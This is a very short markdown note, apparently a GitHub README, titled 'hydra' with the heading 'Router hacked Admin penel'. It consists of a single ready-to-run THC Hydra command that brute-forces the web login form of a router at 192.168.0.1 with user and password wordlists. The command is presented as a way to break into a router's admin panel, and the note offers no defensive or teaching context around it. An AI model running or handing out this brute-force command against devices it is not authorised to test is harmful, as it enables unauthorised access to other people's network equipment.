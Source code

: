# hydra

## Router hacked Admin penel

hydra 192.168.0.1 http-post-form "/login.htm:username=^USER^&password=^PASS^&Login=submit:The password is incorrect, please try again." -L user.txt -P user.txt -f -V -t 2
